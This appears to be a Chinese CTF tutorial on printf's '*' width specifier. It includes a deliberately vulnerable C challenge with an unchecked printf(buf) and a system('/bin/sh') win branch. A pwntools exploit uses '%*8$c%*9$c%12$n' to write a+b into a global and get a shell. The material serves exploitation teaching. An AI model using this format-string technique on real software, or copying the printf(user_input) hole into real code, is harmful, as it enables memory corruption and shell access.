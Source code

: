 ##  *号的用法

*在printf里可以代表一个泛整数，可以代表任何整数。它可以出现在位宽的位置，也可以出现在小数位数的位置。 

对于下面这个程序

```c
#include<stdio.h>
int main(){
	float a = 3.14;
	printf("num:%*.2f",6,a);
}
```

它的输出是

```shell
num:  3.14
```

也就是%*.2f这个格式化参数在输出时一共占了6个字符大小。



那么下面给出一道例题

```c
//gcc -o test test.c -no-pie -g
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>
#include <stdlib.h>
long long num=0;
int main(){
	char buf[0x18];
	long long a=0;
	long long b=0;
	int fp = open("/dev/urandom",O_RDONLY);
	read(fp,&a,2);
	read(fp,&b,2);
	close(fp);
	puts("your name:");
	read(0,buf,0x18);
	puts("guess a number:");
	scanf("%lld",&num);
	printf(buf);
	
	if(a+b==num){
		puts("win!");
		system("/bin/sh");	
	}else{
		puts("wrong!");
		exit(0);
	}
}
```



不考虑爆破的情况，这里虽然可以通过格式化字符串泄露这两个值，但是这里只能先猜，所以这里用*来修改内存，先输出a、b两个数的宽度再用%n写入num，达到num=a+b的效果。

栈上情况

![](1.png)

exp

```python
from pwn import*
p = process('./test')
num_addr = 0x601078
payload = '%*8$c%*9$c%12$n'.ljust(0x10,'a')+p64(num_addr)
p.sendafter('\n',payload)
p.sendlineafter('\n','0')
p.interactive()
```

